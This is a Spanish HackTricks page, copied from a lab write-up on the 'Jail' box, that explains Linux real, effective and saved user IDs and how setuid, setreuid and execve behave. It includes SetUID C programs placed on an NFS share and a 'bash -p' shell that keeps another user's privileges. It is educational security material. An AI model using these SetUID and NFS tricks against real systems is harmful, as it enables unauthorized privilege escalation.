 # euid, ruid, suid

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* ¿Trabajas en una **empresa de ciberseguridad**? ¿Quieres ver tu **empresa anunciada en HackTricks**? ¿O quieres tener acceso a la **última versión de PEASS o descargar HackTricks en PDF**? ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Únete al** [**💬**](https://emojipedia.org/speech-balloon/) [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PR al [repositorio de hacktricks](https://github.com/carlospolop/hacktricks) y al [repositorio de hacktricks-cloud](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

**Este post fue copiado de** [**https://0xdf.gitlab.io/2022/05/31/setuid-rabbithole.html#testing-on-jail**](https://0xdf.gitlab.io/2022/05/31/setuid-rabbithole.html#testing-on-jail)

## **`*uid`**

* **`ruid`**: Este es el **ID de usuario real** del usuario que inició el proceso.
* **`euid`**: Este es el **ID de usuario efectivo**, es lo que el sistema mira cuando decide **qué privilegios debe tener el proceso**. En la mayoría de los casos, el `euid` será el mismo que el `ruid`, pero un binario SetUID es un ejemplo de un caso en el que difieren. Cuando se inicia un binario SetUID, el **`euid` se establece en el propietario del archivo**, lo que permite que estos binarios funcionen.
* `suid`: Este es el **ID de usuario guardado**, se utiliza cuando un proceso privilegiado (en la mayoría de los casos que se ejecuta como root) necesita **abandonar los privilegios** para realizar algún comportamiento, pero luego necesita **volver** al estado privilegiado.

{% hint style="info" %}
Si un **proceso que no es root** quiere **cambiar su `euid`**, solo puede **establecerlo** en los valores actuales de **`ruid`**, **`euid`** o **`suid`**.
{% endhint %}

## set\*uid

A primera vista, es fácil pensar que las llamadas al sistema **`setuid`** establecerían el `ruid`. De hecho, cuando se trata de un proceso privilegiado, lo hace. Pero en el caso general, en realidad **establece el `euid`**. Según la [página del manual](https://man7.org/linux/man-pages/man2/setuid.2.html):

> setuid() **establece el ID de usuario efectivo del proceso que llama**. Si el proceso que llama tiene privilegios (más precisamente: si el proceso tiene la capacidad CAP\_SETUID en su espacio de nombres de usuario), también se establecen el UID real y el ID de usuario guardado.

Por lo tanto, en el caso en el que se está ejecutando `setuid(0)` como root, esto establece todos los IDs en root y básicamente los bloquea (porque `suid` es 0, pierde el conocimiento o cualquier usuario anterior - por supuesto, los procesos root pueden cambiar a cualquier usuario que deseen).

Dos llamadas al sistema menos comunes, **`setreuid`** (`re` para real y efectivo) y **`setresuid`** (`res` incluye guardado) establecen los IDs específicos. Estar en un proceso no privilegiado limita estas llamadas (de la [página del manual](https://man7.org/linux/man-pages/man2/setresuid.2.html) para `setresuid`, aunque la [página](https://man7.org/linux/man-pages/man2/setreuid.2.html) para `setreuid` tiene un lenguaje similar):

> Un proceso no privilegiado puede cambiar su **UID real, UID efectivo e ID de usuario guardado**, cada uno a uno de: el UID real actual, el UID efectivo actual o el ID de usuario guardado actual.
>
> Un proceso privilegiado (en Linux, uno que tiene la capacidad CAP\_SETUID) puede establecer su UID real, UID efectivo e ID de usuario guardado en valores arbitrarios.

Es importante recordar que estos no están aquí como una característica de seguridad, sino que reflejan el flujo de trabajo previsto. Cuando un programa quiere cambiar a otro usuario, cambia el ID de usuario efectivo para que pueda actuar como ese usuario.

Como atacante, es fácil adquirir el mal hábito de simplemente llamar a `setuid` porque el caso más común es ir a root, y en ese caso, `setuid` es efectivamente lo mismo que `setresuid`.

## Ejecución

### **execve (y otros execs)**

La llamada al sistema `execve` ejecuta un programa especificado en el primer argumento. El segundo y tercer argumento son matrices, los argumentos (`argv`) y el entorno (`envp`). Hay varios otros llamados al sistema que se basan en `execve`, denominados `exec` ([página del manual](https://man7.org/linux/man-pages/man3/exec.3.html)). Cada uno es solo un envoltorio sobre `execve` para proporcionar diferentes abreviaturas para llamar a `execve`.

Hay muchos detalles en la [página del manual](https://man7.org/linux/man-pages/man2/execve.2.html), sobre cómo funciona. En resumen, cuando **`execve` inicia un programa**, utiliza el **mismo espacio de memoria que el programa que llama**, reemplazando ese programa
```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <unistd.h>

int main(void) {
    setuid(1000);
    system("id");
    return 0;
}
```
Este programa está compilado y configurado como SetUID en Jail sobre NFS:
```bash
oxdf@hacky$ gcc a.c -o /mnt/nfsshare/a;
...[snip]...
oxdf@hacky$ chmod 4755 /mnt/nfsshare/a
```
Como root, puedo ver este archivo:
```
[root@localhost nfsshare]# ls -l a 
-rwsr-xr-x. 1 frank frank 16736 May 30 04:58 a
```
Cuando ejecuto esto como nobody, `id` se ejecuta como nobody:
```bash
bash-4.2$ $ ./a
uid=99(nobody) gid=99(nobody) groups=99(nobody) context=system_u:system_r:unconfined_service_t:s0
```
El programa comienza con un `ruid` de 99 (nadie) y un `euid` de 1000 (frank). Cuando llega a la llamada `setuid`, se establecen esos mismos valores.

Luego se llama a `system`, y esperaría ver un `uid` de 99, pero también un `euid` de 1000. ¿Por qué no hay uno? El problema es que **`sh` está vinculado simbólicamente a `bash`** en esta distribución:
```
$ ls -l /bin/sh
lrwxrwxrwx. 1 root root 4 Jun 25  2017 /bin/sh -> bash
```
Entonces, `system` llama a `/bin/sh sh -c id`, que es efectivamente `/bin/bash bash -c id`. Cuando se llama a `bash`, sin `-p`, entonces ve `ruid` de 99 y `euid` de 1000, y establece `euid` en 99.

### setreuid / system <a href="#setreuid--system" id="setreuid--system"></a>

Para probar esa teoría, intentaré reemplazar `setuid` con `setreuid`:
```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <unistd.h>

int main(void) {
    setreuid(1000, 1000);
    system("id");
    return 0;
}
```
Compilación y permisos:
```
oxdf@hacky$ gcc b.c -o /mnt/nfsshare/b; chmod 4755 /mnt/nfsshare/b
```
Ahora en la cárcel, ahora `id` devuelve el uid de 1000:
```
bash-4.2$ $ ./b
uid=1000(frank) gid=99(nobody) groups=99(nobody) context=system_u:system_r:unconfined_service_t:s0
```
La llamada `setreuid` establece tanto `ruid` como `euid` en 1000, por lo que cuando `system` llama a `bash`, coinciden y las cosas continúan como frank.

### setuid / execve <a href="#setuid--execve" id="setuid--execve"></a>

Llamando a `execve`, si mi comprensión anterior es correcta, también podría no preocuparme por manipular los uids y, en su lugar, llamar a `execve`, ya que llevará a cabo los IDs existentes. Eso funcionará, pero hay trampas. Por ejemplo, el código común podría verse así:
```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <unistd.h>

int main(void) {
    setuid(1000);
    execve("/usr/bin/id", NULL, NULL);
    return 0;
}
```
Sin el entorno (estoy pasando NULL para simplificar), necesitaré una ruta completa en `id`. Esto funciona, devolviendo lo que espero:
```
bash-4.2$ $ ./c
uid=99(nobody) gid=99(nobody) euid=1000(frank) groups=99(nobody) context=system_u:system_r:unconfined_service_t:s0
```
El `[r]uid` es 99, pero el `euid` es 1000.

Si intento obtener una shell a partir de esto, debo tener cuidado. Por ejemplo, simplemente llamando a `bash`:
```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <unistd.h>

int main(void) {
    setuid(1000);
    execve("/bin/bash", NULL, NULL);
    return 0;
}
```
Voy a compilar eso y establecerlo como SetUID:
```
oxdf@hacky$ gcc d.c -o /mnt/nfsshare/d
oxdf@hacky$ chmod 4755 /mnt/nfsshare/d
```
Aún así, esto devolverá todo nobody:
```
bash-4.2$ $ ./d
bash-4.2$ $ id
uid=99(nobody) gid=99(nobody) groups=99(nobody) context=system_u:system_r:unconfined_service_t:s0
```
Si fuera `setuid(0)`, entonces funcionaría bien (suponiendo que el proceso tuviera permiso para hacerlo), ya que entonces cambia los tres ids a 0. Pero como usuario no root, esto solo establece el `euid` en 1000 (que ya estaba), y luego llama a `sh`. Pero `sh` es `bash` en Jail. Y cuando `bash` se inicia con `ruid` de 99 y `euid` de 1000, volverá a dejar caer el `euid` a 99.

Para solucionar esto, llamaré a `bash -p`:
```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <unistd.h>

int main(void) {
    char *const paramList[10] = {"/bin/bash", "-p", NULL};
    setuid(1000);
    execve(paramList[0], paramList, NULL);
    return 0;
}
```
Esta vez el `euid` está presente:
```
bash-4.2$ $ ./e
bash-4.2$ $ id
uid=99(nobody) gid=99(nobody) euid=1000(frank) groups=99(nobody) context=system_u:system_r:unconfined_service_t:s0
```
O también podría llamar a `setreuid` o `setresuid` en lugar de `setuid`.
